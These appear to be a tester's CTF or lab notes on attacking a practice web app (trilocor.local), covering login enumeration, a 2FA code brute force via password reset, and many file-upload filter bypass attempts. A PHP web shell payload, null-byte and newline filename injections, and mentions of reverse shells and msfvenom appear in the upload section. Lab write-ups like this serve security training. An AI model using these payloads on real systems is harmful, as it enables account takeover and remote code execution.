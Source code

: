 **Login:**
- Login: http://www.trilocor.local:8080/login.php
- Forgot Password: http://www.trilocor.local:8080/forgot.php
- sqlmap not vulnerable
- cant bruteforce login. Too many users
	- Wrong username and password: Error! Invalid username or password.
	- Wrong password, right username: Error! Invalid credentials.
- Reset `r.batty`s password (to password) through password reset and using ffuf to brute force the 4-digit 2fa code, which allowed us to login to get the flag: `f21868786b3f32fd875b6dac2167352e`

**File Upload:**
- Upload Resume: http://www.trilocor.local:8080/upload.php
	- Click 'Apply' on job dashboard to possibly bring forth file
	- or go to `/apply.php`
- `filename=file.pdf` needs to end in `.pdf` and have `%PDF-` as the first part of the content
- Went through [[Bypassing Filters]]
	- [[## Fuzzing Extensions]] Tested. None worked
	- [[## Double Extensions]] Tested. None worked
	- [[## Reverse Double Extension]] Tested. 
	- [[## Character Injection]] All Tested (before `.pdf`)
- Tested all extensions - All made same exact error:
	- File not allowed. Only PDF files can be uploaded.
- Tested Content-Type: can remove and request is still the same
- Tried msfvenom payload and using msfconsole listener but nothing
- Tried pentestmonkey and nc but nothing
- Tried command execution payload = nothing
- tried sqli, command injection, STTI, when submitting an application = nothing
- Files are saved as the md5 hash of the number of file that they are that are uploaded
	- Ex: File 2933 = 25766f01628f3d34b93a36a2301dffc9.pdf
- upload to /upload.php as POST request as r.batty (nothing)

Created all the following accounts with command injection to try to bypass:
```
%PDF-

<?php system($_REQUEST['cmd']); ?>
```
- `%20` - 20htbuser
- `%0a` - 0ahtbuser
- `%00` - 00htbuser
- `%0d0a` - 0dhtbuser
- `/` - /htbuser
- `.\` - \htbuser
- `.` - .htbuser
- `…` - ..htbuser
- `:` - :htbuser
- htbtest: shell.pdf  - zipped file
- htbshell: shell.pdf - phar file
	- also changed content type to `application/x-php` for all
- tried sending php script to display ls / in another file (nothing)
Nothing worked

- Tried sqli in password reset form but got nothing
- Found the name of files being displayed were in sequence to the order they were uploaded, then that order # was md5 hashed, leading to the name of the file. Tried md5 hashing previous numbers to access previous files but kept getting 404
- when submitting a file as the user to a job, i intercepted the request and changed 'job_id' to try SSTI, any file inclusion vulnerabilities, command injection, and sqli, but nothing
